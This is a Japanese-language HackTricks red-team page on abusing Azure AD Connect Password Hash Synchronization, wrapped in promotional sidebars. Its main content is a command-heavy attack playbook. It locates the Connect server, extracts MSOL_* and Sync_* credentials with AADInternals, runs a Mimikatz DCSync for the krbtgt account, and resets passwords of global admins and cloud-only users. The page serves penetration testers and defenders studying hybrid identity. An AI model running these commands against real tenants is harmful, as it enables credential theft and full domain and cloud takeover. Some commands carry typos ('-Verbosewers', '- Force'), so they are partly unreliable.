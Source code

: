 # Az - PHS - パスワードハッシュ同期

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[Telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**する。
- **ハッキングトリックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

## 基本情報

[ドキュメントから：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュ同期**は、ハイブリッドアイデンティティを達成するために使用されるサインイン方法の1つです。**Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

これは企業がオンプレミスADをAzure ADと同期させるために最も一般的に使用される方法です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**クリアテキストのパスワード**や**元のハッシュ**はAzure ADに送信されません。\
さらに、**ビルトイン**セキュリティグループ（ドメイン管理者など）はAzure ADには**同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、Azure ADでは**パスワードの有効期限**と**アカウントの有効期限**が**同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）のユーザーでも、古いパスワードを使用してAzureリソースに引き続きアクセスできます。

オンプレミスユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS**は、**Identity Protection**やAAD Domain Servicesなどの機能に必要です。

## ピボット

PHSが構成されると、いくつかの**特権アカウント**が自動的に**作成**されます：

- アカウント**`MSOL_<installationID>`**がオンプレミスADに自動的に作成されます。このアカウントには**Directory Synchronization Accounts**ロールが付与されます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）。これは、オンプレミスADで**レプリケーション（DCSync）権限**を持っていることを意味します。
- Azure ADには**`Sync_<name of on-prem ADConnect Server>_installationID`**というアカウントが作成されます。このアカウントは、Azure ADで**任意のユーザーのパスワードをリセット**できます（同期されたユーザーまたはクラウドのみ）。

前述の2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**のSQLサーバーに**保存されます**。管理者はこれらの特権ユーザーのパスワードをクリアテキストで抽出できます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの1つから構成を抽出することが可能で、そのうち1つは暗号化されています：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーとAzureADの**Sync\_\***のパスワードが含まれています。したがって、これらを侵害すると、ADおよびAzureADへの昇格が可能です。

これらの資格情報がどのように保存および復号化されるかの詳細な概要については、[このトーク](https://www.youtube.com/watch?v=JEIR5oGCwdg)を参照してください。

### **Azure AD Connectサーバー**を見つける

**Azure AD Connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されています）、次の方法で見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* の乱用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*を悪用する

**`Sync_*`**アカウントを侵害すると、グローバル管理者を含む任意のユーザーのパスワードを**リセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーのパスワードを**変更することも可能**です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**Sync**ユーザーが**権限を持っているサービス プリンシパルに特権権限を割り当て**、そのサービス プリンシパルにアクセスして特権昇格を行う方法です。
{% endhint %}

### シームレス SSO

PHSを使用したシームレス SSOを使用することが可能であり、他の悪用の可能性があります。以下で確認できます：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法：

* **HackTricks で企業を宣伝したい**、または **HackTricks を PDF でダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式 PEASS & HackTricks スワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するために、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出する。

</details>

